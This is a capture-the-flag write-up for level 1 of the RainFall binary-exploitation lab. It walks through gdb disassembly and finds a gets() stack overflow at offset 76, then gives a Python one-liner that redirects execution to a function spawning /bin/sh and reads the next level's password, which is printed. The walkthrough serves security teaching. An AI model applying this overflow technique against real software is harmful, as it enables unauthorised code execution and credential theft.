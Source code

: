 # Level 1


We have a new binary, lets read what's inside :



```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
(gdb) 
```

We see there is some generic system function, but there is a main, and a run function.

```
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.
(gdb) 
```

The main consist of just doing a get() and nothing else so that's all the binary is doing.


```
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret    
End of assembler dump.
(gdb) 
```

Tho the run() function seems to be our door for the flag.

The gets() function vulnerable to Buffer overflow attacks, and since it is used by main, we are going to attack it.

Since the run might be our door for the flag, we are going to overwrite the EIP (Extented Instruction Pointer) of the main, so it points to the adress of the run function.

The program wil segfault when the EIP points to an adress it doesn't own, this will be our hint to know where the EIP is so we can overwrite it.


By giving an input of a lot of A

```
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA


Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()

(gdb) info register
eax            0xbffff6f0	-1073744144
ecx            0xb7fd28c4	-1208145724
edx            0xbffff6f0	-1073744144
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff740	0xbffff740
ebp            0x41414141	0x41414141
esi            0x0	0
edi            0x0	0
eip            0x41414141	0x41414141
eflags         0x210282	[ SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) 



```

We see our EIP got overwriten with 0x41 which the ascii of A.

So instead of re-running the debugger a lot of times by substracting A until we find the exact number of char needed to reach the EIP, we are going to use an offset tool pattern.

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
(gdb) 

```

And by subsctrating the return adress with the user input we know the offset is 76.


So we know that the buffer is 76, and we need to write 76 A to reach the EIP and from here inject what we want.


The adress of the run function is the following, 
0x08048444, and we must give it in backward since the current processor use little-endian coding . (google).

```
level1@RainFall:~$ python -c "print 'A' * 76 + '\x44\x84\x04\x08'" | ./level1 
Good... Wait what?
Segmentation fault (core dumped)
level1@RainFall:~$ 

```

By giving this as input the binary show us a really good message, it worked ! Lets show in-depth what the run function does.


```gdb
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret    
End of assembler dump.
(gdb) x/s 0x8048570
0x8048570:	 "Good... Wait what?\n"
(gdb) x/s 0x8048584
0x8048584:	 "/bin/sh"
(gdb) 
```

It print "Good... Wait what?" and then execute the system syscall with "/bin/sh"

So it should be executing a shell so that we can go to the next level, but it crashed, we need to keep an input on the binary.


```
level1@RainFall:~$ (python -c "print 'A' * 76 + '\x44\x84\x04\x08'" ; cat) | ./level1 
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

We print give the injection input to the binary while and then execute a cat to still have an input on it, so that after the "/bin/sh" call we can still write to the binary and cat our flag.